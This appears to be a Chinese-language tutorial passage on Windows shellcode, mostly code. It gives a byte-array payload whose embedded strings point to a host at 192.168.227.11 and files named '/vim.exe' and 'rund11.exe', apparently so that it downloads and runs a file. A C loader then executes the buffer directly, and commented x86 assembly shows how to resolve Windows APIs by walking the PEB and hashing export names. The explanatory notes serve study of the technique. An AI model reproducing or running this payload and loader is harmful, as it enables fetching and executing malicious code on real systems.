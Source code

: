 		"\x79\x00\x00\x00\xeb\xd1\xe9\x8b\x00\x00\x00\xe8\xac\xff\xff"
		"\xff\x2f\x76\x69\x6d\x2e\x65\x78\x65\x00\xeb\x6b\x31\xc0\x5f"
		"\x50\x6a\x02\x6a\x02\x50\x6a\x02\x6a\x02\x57\x68\xda\xf6\xda"
		"\x4f\xff\xd5\x93\x31\xc0\x66\xb8\x04\x03\x29\xc4\x54\x8d\x4c"
		"\x24\x08\x31\xc0\xb4\x03\x50\x51\x56\x68\x12\x96\x89\xe2\xff"
		"\xd5\x85\xc0\x74\x2d\x58\x85\xc0\x74\x16\x6a\x00\x54\x50\x8d"
		"\x44\x24\x0c\x50\x53\x68\x2d\x57\xae\x5b\xff\xd5\x83\xec\x04"
		"\xeb\xce\x53\x68\xc6\x96\x87\x52\xff\xd5\x6a\x00\x57\x68\x31"
		"\x8b\x6f\x87\xff\xd5\x6a\x00\x68\xe0\x1d\x2a\x0a\xff\xd5\xe8"
		"\x90\xff\xff\xff\x72\x75\x6e\x64\x31\x31\x2e\x65\x78\x65\x00"
		"\xe8\x0b\xff\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x32"
		"\x37\x2e\x31\x31\x00";
		int main(int argc, char **argv)//shellcode loader
		{
			int(*func)();
			func = (int (*)()) code;
			(int)(*func)();
		}

* 实现原理

	* PEB位于固定的内存位置，其中包含关于进程的有用信息，如可执行文件加载到内存的位置，模块列表（DLL）。找到kernal32.dll的位置，进而获得LoadLibraryA的地址

	* API地址定位使用的是通过比对函数名hash来查找函数地址。其工作原理是将函数名计算成hash，当遍历dll导出表时，将函数名先计算为hash再和shellcode中存放的hash比较来确定API，从而找到其地址。这里不直接在shellcode中存放函数名是为了减小shellcode的体积。

	![](https://i.imgur.com/F2vbYbu.png)

		;通过PEB查询程序调用的API的地址
		;https://www.cnblogs.com/bokernb/p/6404795.html
		api_call:;
		  pushad                 ; We preserve all the registers for the caller, bar EAX and ECX.
		  mov ebp, esp           ; Create a new stack frame  函数调用，将基址指针赋给ebp
		  xor edx, edx           ; Zero EDX 清空EDX
		  mov edx, fs:[edx+30h]   ; Get a pointer to the PEB  【通过fs:[30h]获取当前进程的_PEB结构】 Process Environment Block——进程环境块；存放进程信息，每个进程都有自己的PEB信息。位于用户地址空间。
		  mov edx, [edx+0Ch]      ; Get PEB->Ldr  【通过_PEB的Ldr成员获取_PEB_LDR_DATA结构】Ldr地址存放一些指向动态链接库信息的链表地址；能得到进程加载的所有模块
		  mov edx, [edx+14h]      ; Get the first module from the InMemoryOrder module list 【根据加载顺序 只需要向前走两个模块就到了kernel32.dll的LDR_DATA_TABLE_ENTRY 此时就是指向LDR_DATA_TABLE_ENTRY的InMemoryOrderModuleList字段】
		next_mod:
		  mov esi, [edx+28h]      ; Get pointer to modules name (unicode string) 【在0x028处获取 DllName的名称字符串】
		  movzx ecx, word [edx+26h] ; Set ECX to the length we want to check 【MaximumLength】
		  xor edi, edi           ; Clear EDI which will store the hash of the module name   【edi存放hash后的dll名称】
		loop_modname:              ;【dll首字母为小写时执行】
		  xor eax, eax           ; Clear EAX
		  lodsb                  ; Read in the next byte of the name
		  cmp al, 'a'            ; Some versions of Windows use lower case module names
		  jl not_lowercase       ;
		  sub al, 0x20           ; If so normalise to uppercase
		not_lowercase:             ;
		  ror edi, 13            ; Rotate right our hash value
		  add edi, eax           ; Add the next byte of the name
		  loop loop_modname      ; Loop untill we have read enough
		  ; We now have the module hash computed  【计算名称哈希值】
		  push edx               ; Save the current position in the module list for later 【存储调用的API位置和名称hash】
		  push edi               ; Save the current module hash for later
		  ; Proceed to iterate the export address table,【继续迭代导出地址表】
		  mov edx, [edx+16]      ; Get this modules base address
		  mov eax, [edx+60]      ; Get PE header【PE头】
		  add eax, edx           ; Add the modules base address
		  mov eax, [eax+120]     ; Get export tables RVA 【PE文件的相对虚拟地址】
		  test eax, eax          ; Test if no export address table is present【找导入表】
		  jz get_next_mod1       ; If no EAT present, process the next module